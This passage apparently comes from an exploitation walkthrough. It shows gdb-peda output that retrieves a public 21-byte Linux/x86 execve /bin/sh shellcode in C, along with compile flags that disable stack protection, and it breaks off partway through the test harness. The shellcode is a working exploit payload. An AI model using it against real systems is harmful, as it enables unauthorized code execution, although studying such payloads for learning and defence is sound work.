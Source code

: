 Let's see what I got here:

``` 
gdb-peda$ shellcode display 841
Connecting to shell-storm.org...

/*

 Tiny Execve sh Shellcode - C Language - Linux/x86
 Copyright (C) 2013 Geyslan G. Bem, Hacking bits

   http://hackingbits.com
   geyslan@gmail.com

 This program is free software: you can redistribute it and/or modify
 it under the terms of the GNU General Public License as published by
 the Free Software Foundation, either version 3 of the License, or
 (at your option) any later version.

 This program is distributed in the hope that it will be useful,
 but WITHOUT ANY WARRANTY; without even the implied warranty of
 MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 GNU General Public License for more details.

 You should have received a copy of the GNU General Public License
 along with this program.  If not, see <http://www.gnu.org/licenses/>

*/

/*

   tiny_execve_sh_shellcode

  * 21 bytes
  * null-free


   # gcc -m32 -fno-stack-protector -z execstack tiny_execve_sh_shellcode.c -o tiny_execve_sh_shellcode

   Testing
   # ./tiny_execve_sh_shellcode

*/


#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \

"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd"
"\x80";


main ()
{

        // When contains null bytes, printf will show a wrong shellcode length.

	printf("Shellcode Length:  %d\n", strlen(shellcode));

	// Pollutes all registers ensuring that the shellcode runs in any circumstance.
```